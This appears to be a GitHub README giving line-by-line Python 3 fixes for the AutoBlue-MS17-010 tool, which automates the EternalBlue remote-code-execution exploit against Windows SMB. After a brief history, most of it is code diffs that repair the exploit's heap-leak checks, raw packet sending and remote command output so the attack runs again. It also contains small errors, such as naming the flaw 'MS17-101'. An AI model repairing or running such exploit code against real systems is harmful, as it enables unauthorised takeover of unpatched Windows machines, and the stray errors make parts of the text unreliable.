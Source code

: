 # AutoBlue MS17-010 Python 3 Fix

MS17-010 is a security flaw in Microsoft Windows operating systems that was discovered in March 2017. This vulnerability allows remote attackers to execute arbitrary code on a target system by sending specially crafted packets over the network. The EternalBlue exploit was developed by the U.S. National Security Agency (NSA) and leaked by the hacking group Shadow Brokers in April 2017. It takes advantage of the MS17-101 vulnerability, specifically the flaw in the Server Message Block (SMB) protocol, to remotely execute code on a target system, and potentially gaining full control over the system. EternalBlue gained notoriety for its usage in the WannaCry ransomware attack in May 2017, which affected hundreds of thousands of computers worldwide. Microsoft released a patch to fix the vulnerability shortly after it was discovered.

This repo provides suggestions to fix the Python 3 version of the AutoBlue-MS17-010 Exploit Code, which is a tool that automates the EternalBlue exploit. The suggestions specifically address the issue related to `str` and `bytes` types in the `mysmb.py` and `zzz_exploit.py` Python scripts.

The original repository containing all the AutoBlue-MS17-010 exploit files can be accessed at: https://github.com/3ndG4me/AutoBlue-MS17-010

### The suggested changes for `zzz_exploit.py`:

- Use `bytes` instead of `str` on the if statement:
    ```python
    Original:
    321        if leakData[X86_INFO['FRAG_TAG_OFFSET']:X86_INFO['FRAG_TAG_OFFSET']+4] == 'Frag':
    ---
    Modified:
    321        if leakData[X86_INFO['FRAG_TAG_OFFSET']:X86_INFO['FRAG_TAG_OFFSET']+4] == b'Frag':
    ```

- Don't need to use `ord()` to convert `leakData` to Unicode:
    ```python
    Original:
    324        info['FRAG_POOL_SIZE'] = ord(leakData[ X86_INFO['FRAG_TAG_OFFSET']-2 ]) * X86_INFO['POOL_ALIGN']
    ---
    Modified:
    324        info['FRAG_POOL_SIZE'] = leakData[ X86_INFO['FRAG_TAG_OFFSET']-2 ] * X86_INFO['POOL_ALIGN']
    ```

- Use `bytes` instead of `str` on the if statement:
    ```python
    Original:
    325        elif leakData[X64_INFO['FRAG_TAG_OFFSET']:X64_INFO['FRAG_TAG_OFFSET']+4] == 'Frag':
    ---
    Modified:
    325        elif leakData[X64_INFO['FRAG_TAG_OFFSET']:X64_INFO['FRAG_TAG_OFFSET']+4] == b'Frag':
    ```

- Don't need to use `ord()` to convert `leakData` to Unicode:
    ```python
    Original:
    328        info['FRAG_POOL_SIZE'] = ord(leakData[ X64_INFO['FRAG_TAG_OFFSET']-2 ]) * X64_INFO['POOL_ALIGN']
    ---
    Modified:
    328        info['FRAG_POOL_SIZE'] = leakData[ X64_INFO['FRAG_TAG_OFFSET']-2 ] * X64_INFO['POOL_ALIGN']
    ```

- Use `bytes` instead of `str` to join the `reqs` elements:
    ```python
    Original:
    399        conn.send_raw(req1[-8:]+req2+req3+''.join(reqs))
    ---
    Modified:
    399        conn.send_raw(req1[-8:] + req2 + req3 + b''.join(reqs))
    ```

- Use `bytes` instead of `str` on the if statement:
    ```python
    Original:
    418        if leakData[info['FRAG_TAG_OFFSET']:info['FRAG_TAG_OFFSET']+4] != 'Frag':
    ---
    Modified:
    418        if leakData[info['FRAG_TAG_OFFSET']:info['FRAG_TAG_OFFSET']+4] != b'Frag':
    ```

- Use `bytes` instead of `str` on the if statement:
    ```python
    Original:
    429        if leakData[0x4:0x8] != 'LStr' or leakData[info['POOL_ALIGN']:info['POOL_ALIGN']+2] != expected_size or leakData[leakTransOffset+2:leakTransOffset+4] != expected_size:
    ---
    Modified:
    429        if leakData[0x4:0x8] != b'LStr' or leakData[info['POOL_ALIGN']:info['POOL_ALIGN']+2] != expected_size or leakData[leakTransOffset+2:leakTransOffset+4] != expected_size:
    ```

### The suggested changes for `mysmb.py`:

- Don't need to import `smbserver`, just remove it:
    ```python
    Original:
    3          from impacket import smb, smbconnection, smbserver
    ---
    Modified:
    3          from impacket import smb, smbconnection
    ```

- Don't need to import `ConfigParser`, just remove it:
    ```python
    Original:
    9          try:
    10             import ConfigParser
    11         except ImportError:
    12             import configparser as ConfigParser
    ```

- Don't need to define the values below, just remove it:
    ```python
    Original:
    17         SMBSERVER_DIR   = '__tmp'
    18         DUMMY_SHARE     = 'TMP'
    ```

- Verify if `data` need to be converted to `bytes`:
    ```python
    Original:
    89         transData += (b'\x00' * padLen) + str.encode(data)
    ---
    Modified:
    83         if (type(data) == bytes):
    84             transData += (b'\x00' * padLen) + data
    85         else:
    86             transData += (b'\x00' * padLen) + data.encode('utf-8')
    ```

- Substitute `%COMPUTERNAME%` by localhost address `127.0.0.1`:
    ```python
    Original:
    420        self.__output = '\\\\%COMPUTERNAME%\\{}\\{}'.format(self.__share,self.__outputFilename)
    ---
    Modified:
    417        self.__output = '\\\\127.0.0.1\\{}\\{}'.format(self.__share,self.__outputFilename)
    ```

- Remove `errors='replace'` inside `decode()`:
    ```python
    Original:
    483        self.prompt = self.__outputBuffer.decode(errors='replace').replace('\r\n','') + '>'
    ---
    Modified:
    489        self.prompt = self.__outputBuffer.decode().replace('\r\n','') + '>'
    ```

- Don't need to convert `fd.read()` to `bytes`:
    ```python
    Original:
    502        output_callback(fd.read().encode('utf-8'))
    ---
    Modified:
    499        output_callback(fd.read())
    ```

- Remove `errors='replace'` inside `decode()`:
    ```python
    Original:
    528        print(self.__outputBuffer.decode(errors='replace'))
    ---
    Modified:
    525        print(self.__outputBuffer.decode())
    ```

- Remove third argument in `smbConfig.set()`:
    ```python
    Original:
    566        smbConfig.set('IPC$','path','')
    ---
    Modified:
    563        smbConfig.set('IPC$','path')
    ```

